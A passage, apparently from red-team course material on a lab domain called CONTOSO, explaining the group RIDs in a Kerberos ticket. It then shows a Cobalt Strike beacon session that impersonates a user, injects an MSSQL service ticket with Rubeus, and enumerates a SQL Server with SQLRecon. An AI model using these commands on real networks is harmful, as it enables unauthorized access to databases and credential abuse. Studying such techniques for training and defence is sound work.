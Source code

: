 Where:

- `/id` is the RID for rsteel.
    
- `/groups` are the RIDs of rsteel's group membership.  513 is 'Domain Users', 1106 is 'Workstation Admins', 1107 is 'Server Admins', and 4602 is 'Database Admins'.

```powershell
beacon> make_token CONTOSO\rsteel FakePass
[+] Impersonated CONTOSO\rsteel (netonly)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:doIFVzCCBVOgAwIBBaEDAgEWooIETjCCBEphggRG<SNIP>
[*] Action: Import Ticket
[+] Ticket successfully imported!

beacon> run klist

Current LogonId is 0:0x179c863

Cached Tickets: (1)

#0>	Client: rsteel @ CONTOSO.COM
	Server: MSSQLSvc/lon-db-1.contoso.com:1433 @ CONTOSO.COM
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40a00000 -> forwardable renewable pre_authent 
	Start Time: 3/4/2025 12:39:29 (local)
	End Time:   3/4/2025 22:39:29 (local)
	Renew Time: 3/11/2025 12:39:29 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0 
	Kdc Called:
    
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:lon-db-1.contoso.com /m:info

[*] Executing the 'info' module on lon-db-1.contoso.com


| Object                | Value                                 |
| --------------------- | ------------------------------------- |
| ComputerName          | lon-db-1                              |
| DomainName            | CONTOSO                               |
| ServicePid            | 460                                   |
| OsMachineType         | ServerNT                              |
| OsVersion             | Windows Server 2022 Standard          |
| SqlServerServiceName  | MSSQLSERVER                           |
| SqlServiceAccountName | CONTOSO\mssql_svc                     |
| AuthenticationMode    | Windows and SQL Server Authentication |
| ForcedEncryption      | 0                                     |
| Clustered             | No                                    |
| SqlVersionNumber      | 16.0.1000.6                           |
| SqlMajorVersionNumber | 2022                                  |
| SqlServerEdition      | Standard Edition (64-bit)             |
| SqlServerServicePack  | RTM                                   |
| OsArchitecture        | X64                                   |
| OsVersionNumber       | 2022                                  |
| CurrentLogon          | CONTOSO\rsteel                        |
| ActiveSessions        | 1                                     |
```
